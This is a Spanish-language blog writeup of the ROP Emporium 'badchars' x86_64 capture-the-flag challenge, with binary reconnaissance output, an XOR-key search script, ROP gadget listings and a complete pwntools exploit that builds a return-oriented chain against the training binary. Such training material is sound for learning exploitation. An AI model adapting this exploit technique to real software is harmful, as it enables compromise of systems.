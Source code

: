 ```yaml
---
layout: post
title: Badchars ROP Emporium (x86_64)
comments: true
categories: [Pwn, Writeups, ROPEmporium]
---
```


Este es otro post de la serie de writeups de [ROP Emporium](https://ropemporium.com/challenge/split.html). Con esta serie de posts aprenderemos sobre una de las técnicas más utilizadas en la explotación de binarios, la [***ROP***]({% post_url 2024-08-15-ROP %}), ó *Return Orineted Programming* (Programación orientada a *return*).

Concretamente en este reto, lidiaremos con carácteres que el programa no interpreta correctamente.

# x86_64 (Intended)
## Reconocimiento

Como siempre comenzamos lanzando checksec:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```

Según el enunciado, el reto es igual al anterior. Pero, debemos lidiar con *badchars*, es decir, carácteres que el binario no puede interpretar correctamente.

Primero analizaremos con gdb-pwndbg:

```
0x00000000004004d8  _init
0x0000000000400500  pwnme@plt
0x0000000000400510  print_file@plt
0x0000000000400520  _start
0x0000000000400550  _dl_relocate_static_pie
0x0000000000400560  deregister_tm_clones
0x0000000000400590  register_tm_clones
0x00000000004005d0  __do_global_dtors_aux
0x0000000000400600  frame_dummy
0x0000000000400607  main
0x0000000000400617  usefulFunction
0x0000000000400628  usefulGadgets
0x0000000000400640  __libc_csu_init
0x00000000004006b0  __libc_csu_fini
0x00000000004006b4  _fini
```

Al ejecutar el binario nos lista los badchars:

```
[...]
badchars are: 'x', 'g', 'a', '.'
```

Nuestro problema es que necesitamos dichos carácteres para formar la cadena `flag.txt`. Para ello utilizaremos una técnica que consiste en aplicar un *XOR* al valor que introducimos y revertirlo mediante un gadget. Por ejemplo, si aplicamos un XOR a cada byte de `flag.txt` con un `2`, obtenemos `646e63652c767a76`, y si volvemos a aplicarlo, volvemos a tener `flag.txt`.

Para encontrar un valor con el que aplicar el XOR que no genere ningún badchar, podemos utilizar [[python]]:

```python
badchars = [0x61, 0x67, 0x78, 0x2e]  
_string = "flag.txt"  
#Loop 0 to 255  
for i in xrange(255):  
    flag = True  
    # 8 loops, for 8 bytes we concat the result of the xor  
    new_string = "".join([chr(i^ord(_string[x])) for x in xrange(len(_string))])  
    #Now we loop through all 8 bytes of bad chars and if it's found in new string we ignore it  
    for b in badchars:  
        if chr(b) in new_string:  
            flag = False  
    #If we made it past the bad character check we print out the result and exit  
    if flag:  
        print "^"+str(i)  
        print new_string.encode('hex')  
        exit()
```

Con **ropper** podemos buscar gadgets excluyendo dichos badchars:

```asm
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000400634: mov qword ptr [r13], r12; ret;
0x0000000000400628: xor byte ptr [r15], r14b; ret;
0x00000000004006a3: pop rdi; ret;
```

El gadget más importante es el que nos permite realizar un *XOR* al contenido de la dirección guardada en *r15*. Para ello, utilizaremos el `mov qword ptr [r13], r12; ret;` para guardar la cadena en una sección con permisos de R/W.

Por tanto, ambos, *r13* y *r15* apuntarán a dicha sección, *r12* contendrá la cadena y *r14* la clave para el XOR (`0x02`).

Además, debemos buscar una sección con permisos de lectura/escritura donde guardar los datos, lo haremos con *radare2*:

```bash
[0x00400520]> iS
[Sections]

nth paddr        size vaddr       vsize perm type        name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- NULL
1   0x00000238   0x1c 0x00400238   0x1c -r-- PROGBITS    .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- NOTE        .note.ABI-tag
3   0x00000274   0x24 0x00400274   0x24 -r-- NOTE        .note.gnu.build-id
4   0x00000298   0x38 0x00400298   0x38 -r-- GNU_HASH    .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- DYNSYM      .dynsym
6   0x000003c0   0x7e 0x004003c0   0x7e -r-- STRTAB      .dynstr
7   0x0000043e   0x14 0x0040043e   0x14 -r-- GNU_VERSYM  .gnu.version
8   0x00000458   0x20 0x00400458   0x20 -r-- GNU_VERNEED .gnu.version_r
9   0x00000478   0x30 0x00400478   0x30 -r-- RELA        .rela.dyn
10  0x000004a8   0x30 0x004004a8   0x30 -r-- RELA        .rela.plt
11  0x000004d8   0x17 0x004004d8   0x17 -r-x PROGBITS    .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x PROGBITS    .plt
13  0x00000520  0x192 0x00400520  0x192 -r-x PROGBITS    .text
14  0x000006b4    0x9 0x004006b4    0x9 -r-x PROGBITS    .fini
15  0x000006c0   0x10 0x004006c0   0x10 -r-- PROGBITS    .rodata
16  0x000006d0   0x44 0x004006d0   0x44 -r-- PROGBITS    .eh_frame_hdr
17  0x00000718  0x120 0x00400718  0x120 -r-- PROGBITS    .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- INIT_ARRAY  .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- FINI_ARRAY  .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- DYNAMIC     .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- PROGBITS    .got
22  0x00001000   0x28 0x00601000   0x28 -rw- PROGBITS    .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data
24  0x00001038    0x0 0x00601038    0x8 -rw- NOBITS      .bss
25  0x00001038   0x29 0x00000000   0x29 ---- PROGBITS    .comment
26  0x00001068  0x618 0x00000000  0x618 ---- SYMTAB      .symtab
27  0x00001680  0x1f8 0x00000000  0x1f8 ---- STRTAB      .strtab
28  0x00001878  0x103 0x00000000  0x103 ---- STRTAB      .shstrtab
```

Utilizaremos, al igual que en el ejercicio anterior, la sección *.bss*.

## Explotación

El script será muy similar al anterior, pero deberemos aplicar el XOR a los datos:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
context.arch = 'amd64'
context.bits = 64
exe = './badchars'

def start():
    
    return process(exe)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

def xor2(str):
    res = ""
    for i in str:
        res += chr(int(hex(ord(i))[2::], 16) ^ 2)
    return res

io = start()

# DEBUG
#gdb.attach(io, '''
#    break *0x0000000000400628
#    continue
#''')

padding=40*b'A' #Same as previous

# 0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret;
pop_values = p64(0x000000000040069c)

xor_key = p64(0x2)

xored_flag = bytes(xor2("flag.txt"), 'utf-8')


rw_section = 0x00601030

# 0x0000000000400634: mov qword ptr [r13], r12; ret;
load_string = p64(0x0000000000400634)

# 0x00000000004006a0: pop r14; pop r15; ret; 
popr14_r15_ret = p64(0x00000000004006a0)

# 0x0000000000400628: xor byte ptr [r15], r14b; ret;
xor = p64(0x0000000000400628)


# 0x00000000004006a3: pop rdi; ret;
pop_rdi = p64(0x00000000004006a3)

# 0x0000000000400510  print_file@plt
print_file = p64(0x0000000000400620)

payload = padding + pop_values + xored_flag + p64(rw_section) + xor_key + p64(rw_section)
payload += load_string

# Iteramos los 8 bytes de la cadena
for i in range(8):
    payload += popr14_r15_ret
    payload += p64(2)
    payload += p64(rw_section + i)
    payload += xor

payload += pop_rdi + p64(rw_section) + print_file

io.send(payload)

io.interactive()
```

Y hasta aquí el writeup de este ejercicio. ¡Nos vemos en el siguiente post!
